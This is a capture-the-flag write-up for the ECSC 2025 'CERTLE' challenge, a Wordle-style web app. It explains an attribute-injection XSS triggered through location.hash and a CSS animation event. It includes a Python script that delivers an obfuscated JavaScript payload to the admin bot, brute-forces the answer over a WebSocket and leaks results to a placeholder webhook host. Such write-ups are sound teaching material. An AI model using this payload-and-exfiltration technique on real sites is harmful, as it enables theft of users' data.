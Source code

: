 # CERTLE

> STOP DOING CERTLE. MILIONS OF WORK-HOURS SPENT YET NO REAL-WORLD BENEFITS FOUND.
>
> [https://certle.ecsc25.hack.cert.pl/](https://certle.ecsc25.hack.cert.pl/)

## Solution
After analysing the backend and frontend source (links can be found in the HTML code), it seems that the frontend sets attributes on the ~~WORD~~CERTLE cell nodes to values decoded from `location.hash`. Combined with keyframes defined in the stylesheet, t's possible to abuse this behaviour to trigger arbitrary JavaScript code execution by setting a `onanimationend` attribute and a `style` attribute that defines an `animation` property. After that, the flag can be leaked from the answer bot by creating a WebSocket connection that checks all possible characters of the alphabet with the backend server and forwards the answers to a webhook:

```py
from base64 import b64encode
import requests
import time

print('Check: ', requests.get('https://certle.ecsc25.hack.cert.pl'))

loc_template = '''[{"letter":"b","attributes":{"onanimationend":"eval(atob('%s'));","dummy": "AAAA", "class":"cell font-monoscape green", "style": "animation: red 0.1s 1"}},{"letter":"o","attributes":{"class":"cell font-monospace green"}},{"letter":"r","attributes":{"class":"cell font-monospace green"}},{"letter":"a","attributes":{"class":"cell font-monospace green"}},{"letter":"t","attributes":{"class":"cell font-monospace green"}},{"letter":"e","attributes":{"class":"cell font-monospace green"}}]'''

code_template = '''
(function f() {
    let ws = new WebSocket("wss://certle.ecsc25.hack.cert.pl/ws");
    let alphabet = "abcdefghijklmnopqrstuvwxyz_{}0123456789"
    let idx = 0;

    function snd(ans) {
        if (ws.readyState != 1) {
            setTimeout(() => snd(ans), 5);
        } else {
            ws.send(JSON.stringify({ answer: ans }));
        }
    }

    ws.onmessage = function(event) {
        const result = event.data;
        var img = new Image(); img.src = `YOUR_WEBHOOK_LINK?char=${alphabet[idx]}&data=${result}`; document.body.appendChild(img);
        setTimeout(() => snd(alphabet[++idx].repeat(100)), 5);
    };

    snd(alphabet[idx].repeat(100));
})()
'''

code = code_template
loc = loc_template % b64encode(code.encode()).decode()
resp = requests.post('https://certle.ecsc25.hack.cert.pl/report', json={'url': 'https://certle.ecsc25.hack.cert.pl#' + b64encode(loc.encode()).decode()})
print(resp)
```

The flag can be recovered by saving the webhook data as a JSON document with keys being the `char`s and values being the `data` and running the following script:

```py
import json

with open('results.json', 'rt') as f:
    results = json.load(f)

flag = list(b'?' * len(results['a']))

for k, v in results.items():
    for i, c in enumerate(v):
        if c == 'green':
            flag[i] = ord(k)

print(bytes(flag).decode())
```

This outputs `ecsc25{crane?is?my?goto?word?how?about?you?}`. The characters that weren't found are easily guessed.

## Flag
`ecsc25{crane-is-my-goto-word-how-about-you?}`
